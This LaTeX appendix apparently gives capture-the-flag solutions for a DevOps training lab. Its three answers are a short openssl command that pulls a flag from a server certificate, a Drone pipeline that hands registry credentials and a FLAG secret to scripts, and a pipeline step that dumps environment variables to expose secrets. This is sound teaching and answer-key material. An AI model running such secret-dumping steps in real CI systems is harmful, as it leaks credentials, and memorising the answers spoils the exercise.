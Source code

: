 \appendix
\chapter{Appendix}
\newpage
\section{Certificate flag solution}
\label{app:certificate-solution}
\begin{verbatim}
    openssl s_client -connect git.devops.eds:443 -showcerts | grep "EDS"
\end{verbatim}
\section{Drone training CTF solution}
\label{app:firelands-solution}
\begin{verbatim}
    kind: pipeline
    type: docker
    name: number1

    steps:
      - name: python1
        image: registry.devops.eds/python:buster
        commands:
            - pip install -r requirements.txt
            - python app.py
      - name: docker-using-environmental
        image: registry.devops.eds/docker:1
        commands:
            - sleep 3
            - docker login https://registry.devops.eds \
            -u $USERNAME -p $PASSWORD
            - echo "hello"
        environment:
          USERNAME:
            from_secret: USERNAME
          PASSWORD:
            from_secret: PASSWORD
      - name: flagtaking
        image: registry.devops.eds/python:buster
        commands:
          - python flag.py $FLAG
        environment:
          FLAG:
            from_secret: FLAG
    services:
      - name: python-server
        image: registry.devops.eds/python:buster
        commands:
          - python python_server.py
\end{verbatim}
\section{Peons will do what they are told solution}
\label{app:amirdrassil-solution}
\begin{verbatim}
    kind: pipeline
    type: docker
    name: default
    steps:
    - name: backend
      image: registry.devops.eds/python:buster
      commands:
       - export | grep -E "EDS"
\end{verbatim}
\newpage
